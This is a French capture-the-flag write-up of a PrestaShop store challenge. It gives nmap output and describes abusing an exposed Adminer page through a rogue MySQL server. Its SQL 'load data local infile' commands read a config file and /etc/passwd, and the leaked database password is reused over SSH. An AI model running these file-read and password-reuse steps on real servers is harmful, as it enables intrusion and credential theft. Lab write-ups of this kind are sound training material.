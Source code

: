 # Write Up SantHackLaus ! 



Yo tout le monde ! Le CTF SantHackLaus est fini et voici mon write up pour celui ci !
Petit rapel de l'existence de mon [serveur discord](https://discord.gg/2bwhtP7). 
Juste je n'ai pas finis le chall car j'avais la flemme ou plutôt que je n'ai pas la patience nécessaire: à l'étape de l'éscalade de privilège j'ai ragé et tout arrêté. Je n'ai donc fais que le Part 1.

Alors voici la traduction (merci Google) de l'énoncé du challenge:

```
L'un de vos amis souhaite lancer sa boutique en ligne sur https://mystore.santhacklaus.xyz.
Vous l'avez rapidement informé des principes de base de la sécurité informatique et il vous assure que 
il a suivi tous vos conseils. Réalisez votre audit et montrez-lui que sa plateforme est
pas correctement fixé!
```

J'ai donc commencé par lancer un scan avec nmap sur mystore.santhacklaus.xyz
```
(nmap -A )

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 47:df:ea:a5:95:38:bb:0c:79:9e:40:ce:f7:20:15:a2 (RSA)
|   256 d6:d5:15:90:25:18:d0:0c:d9:d1:b0:33:7f:84:20:7e (ECDSA)
|_  256 62:fa:22:28:18:ad:c5:fa:8b:13:d4:fe:be:3b:f9:e9 (ED25519)
80/tcp  open  http     nginx
|_http-title: Did not follow redirect to https://mystore.santhacklaus.xyz/
443/tcp open  ssl/http nginx
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-robots.txt: 81 disallowed entries (15 shown)
| /*?order= /*?tag= /*?id_currency= /*?search_query=
| /*?back= /*?n= /*&order= /*&tag= /*&id_currency=
| /*&search_query= /*&back= /*&n= /*controller=addresses
|_/*controller=address /*controller=authentication
| http-title: myStore
|_Requested resource was https://mystore.santhacklaus.xyz/index.php
|_http-trane-info: Problem with XML parsing of /evox/about
| ssl-cert: Subject: commonName=mystore.santhacklaus.xyz
| Subject Alternative Name: DNS:mystore.santhacklaus.xyz
| Not valid before: 2019-12-02T11:14:43
|_Not valid after:  2020-03-01T11:14:43
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   h2
|_  http/1.1
| tls-nextprotoneg:
|   h2
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.43 seconds
```

Il n'y a rien d'interessant, continuons sur l'énumération du serveur web, j'ai d'abord testé plusieur vulnérabilité sur Pretashop mais rien ne marchais.
J'ai donc essayer de fuzz d'abord avec medium directory wordlist. Je ne trouve rien. Là dégouté je laisse tombé le chall puis y reviens demain.
Je tente un peu au hasard common directory wordlist et la je trouve un truc interessante: "adminer.php". Adminer est un outil d'administration ph et SQL (encore merci Google).
Ce qui est interessant ici c'est que nous pouvons nous connecter à n'importe quel serveur MySQL. Google nous sauve encore "Free Hosting MySQL".
On crée donc un serveur SQL puis on se connecte depuis adminer dessus. 

A partir de la on peut lire n'importe quel fichier dont on a le droit de lecture avec les commandes SQL suivantes:
```
        load data local infile 'la/votre/file'
        into table truc
        fields terminated by "\n"
```

On sait que c'est du Pretashop et je me suis documenté dessus sur internet et le fichier app/config/parameters.php est très interessant 
on lance donc:
```
        load data local infile 'app/config/parameters.php'
        into table truc
        fields terminated by "\n"
```

Un truc nous interesse tout d'un coup 
```
'database_password' => 'KA6$g@Tx0{(Si4bR3DT4'
```
On a un mot de passe mais pas de user je test admin, ça marche pas, coup de rage je vais faire une partie de foot avec mon petit frère et je reviens.
La je fais un peu de pwn (je tentais le String Oriented Programming pour les curieux ) puis j'ai une idée que j'aurai du avoir plus tôt : Normalement c'est un reflexe ! J'essaie de récuperer /etc/passwd

```
        load data local infile '/etc/passwd'
        into table truc
        fields terminated by "\n"
```

Ici je me connecte a la base SQl en localhost depuis Adminer avec un username que l'on voit dans /etc/passwd : "john" et le mot de passe trouvé avant : "KA6$g@Tx0{(Si4bR3DT4"
Je trouve rien d'interessant. Je rage encore. Je reviens après et je me rappelle que le port 22 était ouvert en SSH !! Je test et oui !! Il avait utilisé le même mot de passe ! 

````cat flag.txt```

Et la le plaisir de voir aparaître le flag: SANTA{That-W4Z/a/C0ol-CV3!}
